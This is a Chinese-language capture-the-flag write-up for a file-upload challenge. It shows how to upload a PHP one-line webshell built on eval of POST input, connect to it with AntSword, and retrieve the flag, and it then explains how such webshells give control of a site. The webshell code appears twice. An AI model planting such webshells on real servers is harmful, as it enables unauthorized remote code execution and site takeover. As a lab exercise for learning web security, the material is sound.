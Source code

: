 ## Upload
![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1731398403979-ba2679e5-7618-40f1-a454-d2e05927782d.png)

题目名Upload提示上传任意文件 这里我们需要上传一句话木马并通过中国蚁剑连接从而查找隐藏在网站根目录下的flag

首先 创建并编写一句话木马文件

在桌面上新建一个文本文件并修改文件名称及文件后缀名为php

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1731399637828-7baa0ff5-3dcf-4d58-8908-70a4b09b285c.png)

编辑文本内容后保存

```plain
<?php @eval($_POST[0]);?>
```

将文件上传

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1731399790321-5d883e04-a424-411d-a84a-6c839c80a2b5.png)

根据代码审计文件上传到了'uploads/$file'下

打开中国蚁剑测试连接

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1731400022279-b77a7739-22b2-419a-9a9b-65014bce9a1e.png)

测试连接成功后进入根目录查找flag

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1731400130584-18e3fc26-9276-4bc9-8d5f-3e052816d211.png)

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1731400143627-b4e92f89-2e1e-49a7-946c-dc8d466a3353.png)

### 关于一句话木马：
主要参考文章：[链接](https://blog.csdn.net/weixin_39190897/article/details/86772765?ops_request_misc=%257B%2522request%255Fid%2522%253A%252209B31737-A115-41DD-BFCA-63527FE4A2BF%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=09B31737-A115-41DD-BFCA-63527FE4A2BF&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-86772765-null-null.142^v100^pc_search_result_base7&utm_term=%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%ACphp%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0&spm=1018.2226.3001.4187)

#### <font style="color:rgb(79, 79, 79);">概述：</font>
<font style="color:rgb(77, 77, 77);">在很多的渗透过程中，渗透人员会上传一句话木马（</font>**<font style="color:rgb(77, 77, 77);">简称Webshell</font>**<font style="color:rgb(77, 77, 77);">）到目前web服务目录继而提权获取系统权限，不论asp、php、jsp、aspx都是如此</font>

<font style="color:rgb(77, 77, 77);">先来看看最简单的一句话木马：</font>

```plain
   <?php @eval($_POST['attack']);?>
```

【基本原理】利用文件上传漏洞，往目标网站中上传一句话木马，然后你就可以在本地通过中国菜刀或中国蚁剑即可获取和控制整个网站目录。@表示后面即使执行错误，也不报错。eval（）函数表示括号内的语句字符串什么的全都当做代码执行。$_POST['attack']表示从页面中获得attack这个参数值。
